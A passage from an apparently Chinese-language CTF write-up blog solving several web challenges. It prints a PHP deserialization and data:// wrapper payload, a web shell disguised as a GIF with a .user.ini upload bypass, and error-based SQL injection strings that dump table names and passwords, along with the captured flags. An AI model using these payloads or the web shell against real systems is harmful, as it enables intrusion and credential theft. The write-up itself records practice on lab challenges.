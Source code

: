 payload

```
/?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

flag{0e255178-c131-4073-beb9-5821c29c0c3c}

{{% /spoiler %}}

{{% spoiler "[SUCTF 2019]CheckIn  |  upload" %}}

传pure.phtml，对后缀检测，jpg会检测文件内容，考虑上传.user.ini

pure2.gif

```
GIF89a
<script language='php'>eval($_POST['amiz']);</script>
```

.user.ini

```
GIF89a
auto_prepend_file=pure2.gif
```

uploads/cc551ab005b2e60fbdc88de809b2c4b1

传的时候文件重名给远程环境整崩了，懒得重开了，寄

{{% /spoiler %}}

{{% spoiler "[极客大挑战 2019]HardSQL  |  sqli 报错注入" %}}

之前几个分别用了万能密码，联合查询，双写，这次轮到报错注入了

过滤了`=`，换成`(a)like(b)`这样的

```
1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database()))),1))%23	# H4rDsq1
```

```
1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))),1))%23	# id,username,password
```

```
1'or(updatexml(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1))),1))%23
```

```
1'or(updatexml(1,concat(0x7e,(select(group_concat(right(password,25)))from(H4rDsq1))),1))%23
```

flag{64053c33-96f3-4bea-8e94-02fb81e48236}

{{% /spoiler %}}

{{% spoiler "[MRCTF2020]你传你🐎呢  |  upload" %}}
